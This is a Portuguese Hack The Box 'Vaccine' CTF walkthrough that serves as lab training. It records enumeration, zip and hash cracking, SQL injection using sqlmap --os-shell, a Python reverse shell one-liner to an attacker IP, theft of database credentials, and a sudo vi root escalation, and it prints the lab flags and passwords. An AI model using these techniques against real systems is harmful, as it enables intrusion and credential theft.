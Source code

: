 ```yaml
---
description: CTF do Hack The Box como fiz e anotações.
title: HackTheBox - Vaccine - Fácil
date: 2024-01-14 04:22:00 +/-0300
categories: [CTF, HackTheBox]
tags: [ctf, hackthebox, linux, sudo, web, facil, sqli, walk]     # TAG names should always be lowercase
show_image_post: true
---
```

![logo](/assets/img/vaccinelogo.png){: w="100" h="100" .left}

---
# **CTF - Vaccine**
---
---
## **Enumeração**

### nmap

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s -sC 10.129.254.54 -T4 -p 21,22,80 --min-rate 10000 -oA nmap 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-12 04:31 EST
Nmap scan report for 10.129.254.54
Host is up (0.15s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.151
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

```
{: .nolineno }
### gobuster

```shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.129.254.54/.htpasswd            (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.old        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.old        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.txt        (Status: 403) [Size: 278]
http://10.129.254.54/.htpasswd.php        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.php        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess.txt        (Status: 403) [Size: 278]
http://10.129.254.54/.htaccess            (Status: 403) [Size: 278]
http://10.129.254.54/dashboard.php        (Status: 200) [Size: 2312]
http://10.129.254.54/index.php            (Status: 200) [Size: 2312]
http://10.129.254.54/license.txt          (Status: 200) [Size: 1100]
http://10.129.254.54/server-status        (Status: 403) [Size: 278]
Progress: 81876 / 81880 (100.00%)
===============================================================
```
{: .nolineno }

A pagina inicial é uma tela de login.  
O ftp permite login anonymous, encontrando backup.zip com senha -> "741852963", resolvida com John The Ripper.

``
$zip2john backup.zip > hash  
``  
``
$john hash
``

Dentro do zip foi encontrado:
index.php
onde contem login e senha.

```php
admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") 
```
{: .nolineno }

Hash "2cb42f8734ea607eefed3b70af13bbd3" = "qwerty789".  
Obtida em banco de dados de algum site.  
login e senha aceitos na pagina inicial;

Pagina Web vulnerável a SQLInjection.

![sqli](/assets/img/vaccine1.png)

## **Acesso**

### Reverse Shell

Com sqlmap foi possível confirmar e ler o db, nada de util, porem existe a opção ``--os-shell``
que você pode executar um comando, no caso vamos usar para executar uma reverse shell.

`sqlmap -u 'http://10.129.254.54/dashboard.php?search=a' --cookie="PHPSESSID=pt0gp6cl43a3lvq63atkn90j7b" --os-shell`

o `--cookie` é necessário para manter a sessão

comando de reverse shell executado

python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.151",4443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'

Shell Upgrade

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'  
CTRL+Z  
stty raw -echo  
fg  
export TERM=xterm  
```
{: .nolineno }

## **Obtendo credenciais**

Pegando a senha do db em: cat  /var/www/html/dashboard.php  
`user=postgres password=P@s5w0rd!"`

A shell cai e poucos minutos e com essa senha podemos logar via ssh.

### Primeira flag

`cat user.txt`  
`ec9b13ca4d6229cd5cc1e09980965bf7`  

## **Escalação de Privilégio**  

Agora podemos executar o sudo -l  e ver algum possível escalamento de privilégio.  

```shell
$sudo -l
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
  {: .nolineno }

  Consultando o  [GTO](https://gtfobins.github.io/gtfobins/vi/#sudo) ele nos da essa opção
  
`sudo vi -c ':!/bin/sh' /dev/null`
   
```shell
postgres@vaccine:~$ sudo vi -c ':!/bin/sh' /dev/null
Sorry, user postgres is not allowed to execute '/usr/bin/vi -c :!/bin/sh /dev/null' as root on vaccine.
```
{: .nolineno }

Só podemos usar o vi em `etc/postgresql/11/main/pg_hba.conf`,
  a alternativa que o GTO nos da é:
  
`vi`  
`:set shell=/bin/sh`  
`:shell`

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
usamos:  
`:`  
`set shell=/bin/sh`  
`[enter]`   
`:`  
`shell`  
`[enter]`  

### Ultima flag
```shell
$whoami  
root
$root@vaccine:~# cat root.txt 
dd6e058e814260bc70e9bbdef2715849
$root@vaccine:~# 
```
{: .nolineno }
![pwned](/assets/img/vaccine3.png)